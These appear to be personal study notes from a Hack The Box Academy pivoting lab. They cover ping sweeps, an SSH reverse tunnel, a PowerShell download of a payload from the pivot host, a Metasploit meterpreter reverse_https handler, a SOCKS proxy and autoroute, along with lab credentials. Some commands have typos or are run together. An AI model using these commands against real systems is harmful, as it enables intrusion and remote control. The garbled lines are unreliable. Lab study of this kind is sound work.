

Pivot internal: 172.16.5.129
Network: 172.16.5.0/23
172.16.5.19:victor:pass@123

## Section 1
1. Question 1

Find host

for i in {1..255}; do (ping -c 1 172.16.5.${i} | grep "bytes from" &); done
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.310 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.017 ms

## Section 2
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.160.193-fNv

Invoke-WebRequest -Uri "http://172.16.5.129:8123/backup.exe" -OutFile "C:\Users\victor\backup.exe"

sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https set LHOST 0.0.0.0; set 8000; exploit"

tools
internet options
security tab
truted zoneHTB_@cademy_stdnt10.129.218.108HTB_@cademy_stdnt!

## Section 3
- Steps
1. Upload meterpreter shell on the pivot

   - scp backupjob ubuntu@10.129.86.217:/home/ubuntu

2. Create listener (multi handler) on the attacker to listen to 1

    - session created

3. Execute ping sweep on the internal network

    - post(multi/gather/ping_sweep) = NO
      - set Session 1
      - set RHOST
    - run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23 = NO
    - for i in {1..254} ;do (ping -c 5 -i 5 172.16.5.$i | grep "bytes from" &) ;done 
    - for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

4. Set up MSF sock proxy
    - auxiliary(server/socks_proxy) 
      - set SRVPORT 9050
      - set SRVHOST 0.0.0.0
      - jobs: 0   Auxiliary: server/socks_proxy

5. Create routes to internal subnet found on the pivot (module | inside meterpreter)
    - post(multi/manage/autoroute) >
      - set session
      - set subnet 172.16.5.0
    - run autoroute -s 172.16.5.0/23
      - run autoroute -p: 172.16.5.0         255.255.254.0      Session 6
